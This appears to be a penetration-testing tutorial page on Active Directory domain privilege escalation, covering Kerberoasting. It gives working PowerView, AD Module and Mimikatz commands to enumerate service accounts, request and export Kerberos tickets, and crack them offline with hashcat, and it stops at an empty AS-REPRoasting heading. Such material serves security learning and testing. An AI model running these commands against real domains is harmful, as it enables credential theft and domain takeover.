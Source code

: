 ```yaml
---
title: Domain Privilege Escalation
category: Active Directory
order: 4
---
```


Lets talk about some attacks to carry out a domain privilege escalation in order to obtain a Domain Controller.

# Kerberoasting

The Kerberos session ticket as known as `TGS` has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.

> **Note**: Service accounts are many times ignored. Password are rarely changed and have privileged access.


## Getting the TGS

First of all we need to find which users are used as *Service Accounts*:

* PowerView:
```powershell
Get-NetUser -SPN
```
* AD Module:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

After enum it, we need to request a TGS:

* PowerView:
```powershell
Request-SPNTicket
```

* AD Module:
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/mgmt-user.corp.local"
```

> **Note**: With `klist` you can check if the TGS has been granted.

Finally all tickets should be exported.

```powershell
Inovoke-Mimikatz -Command '"kerberos::list /export"'
```

## Cracking the TGS

Once the tickets are exported it can be cracked with `john`, `hashcat` or `tgsrepcrack.py` tool:

```
python.exe .\tgsrepcrack.py wordlist.txt ticket.kirbi
```
To crack the ticket with hascat exists a script to export it to a hashcat format.

* https://github.com/jarilaos/kirbi2hashcat

```
haschat -a 0 -m 13100 wordlist.txt ticket.txt
```

# AS-REPRoasting


